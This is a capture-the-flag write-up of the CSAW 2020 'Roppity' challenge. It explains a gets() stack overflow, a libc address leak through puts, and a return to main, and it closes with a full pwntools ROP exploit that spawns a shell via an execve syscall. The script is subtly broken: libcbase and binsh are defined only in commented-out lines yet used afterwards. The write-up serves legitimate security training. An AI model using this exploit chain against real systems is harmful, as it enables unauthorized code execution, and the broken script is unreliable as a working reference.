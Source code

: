 ```yaml
---
title: CSAW 2020 - Roppity
date: 2020-09-16 22:04:31
description: "First ROP challenge from CSAW ctf 2020"
tags: ["Code", "Binary Exploitation", "CSAW 2020"]
---
```


Here's the simple ROP challenge from the CSAW 2020 qualifiers.

### The Challenge

_Welcome to pwn!_

```shell
nc pwn.chal.csaw.io 5016
```

Along with 2 files, Rop, the binary, and libc-2.27.so

### Running this random binary...

To start off, when we enter some input we find that the program readily segfaults.

{% asset_img segfaulted.png "Segfaults easily lol" %}

### Buffer calculations

Then using a disassembler (here I am using binaryninja, but you can use any one you like), we find out that we're inputting into a buffer of size `0x20` using the `gets()` call.  
Since `rbp` is first to be pushed onto the stack, and the buffer size being offset from `rbp`, the total padding required is:

0x20 + 8 bytes for rbp = **40 bytes**

### Leaking a libc address

Since there is no win function, next thing we need is a way to pop the shell. There don't seem to be enough rop gadgets to pop a shell, and with the NX functionality enabled, it doesn't seem like we can use any shellcode.

{% asset_img checksec.png PIE disabled, NX enabled %}

In that case, the only thing to do is leak a libc address using the classic `puts(puts)` idea. We print out the address of puts in the GOT which should contain the address of puts in libc, by jumping to `puts@plt`.  
**Note:** We don't need to leak a code address since there is no PIE

### Rop chain generation

Once we have the leak, since we know the libc version, the next problem is to run the gets call again, so that we can send in the the rop chain we generate from the libc.
To do this, we jump back to the main function, get it to repair the currently destroyed stack, and then enter in our ropchain.

### Tl;dr, gimme the code

The whole script is as follows.

```python
#!/usr/bin/env python3

from pwn import *

PROGNAME = "./rop"
REMOTEIP = "pwn.chal.csaw.io"
REMOTEPORT = "5016"

if args.REMOTE:
        p = remote(REMOTEIP, REMOTEPORT)
        elf = ELF(PROGNAME)
        libcelf = ELF('./libc-2.27.so')
else:
        p = process(PROGNAME)
        elf = p.elf
        libcelf = ELF('<system libc path>')
        gdb.attach(p)

# Requires 40 bytes of padding
padding = b'a' * 40

# puts address in the binary
# puts@plt
puts = 0x004004a0

# puts@got
putsGot = 0x601018

# pop rdi gadget for all the rop
popRdi = 0x0000000000400683

# Return to the main function to repair the
# destroyed stack
main = 0x004005dc

# run puts@plt with puts@got in rdi to leak a libc address
p.sendline(padding + p64(popRdi) + p64(putsGot) + p64(puts) + p64(main))

# stripping the newline
leak = p.readline()[:-1]

# the leak is only 6 bytes, with address being of the form: 0x0000<address>
libc = u64(leak + b'\x00' * 2)

# sadly the system('/bin/sh') doesn't work, possibly has been disabled
# libcbase = libc - libcelf.symbols['puts']
# libcsys = libcbase + libcelf.symbols['system']
# binsh = libcbase + next(libcelf.search(b'/bin/sh'))
# systemPayload = padding + p64(popRdi) + p64(binsh) + p64(libcsys)

# The rop chain magic
syscall = p64(libcbase + 0x00000000000d29d5)
popRsi = p64(libcbase + 0x0000000000023e8a) + p64(0)
popRdx = p64(libcbase + 0x0000000000001b96) + p64(0)
popRax = p64(libcbase + 0x0000000000043a78) + p64(59)
setBinsh = p64(popRdi) + p64(binsh)

# execve syscall
# rax: 59
# rdi: pointer to '/bin/sh\x00'
# rsi: 0
# rdx: 0
p.sendline(padding + popRsi + popRdx + popRax + setBinsh + syscall)
```

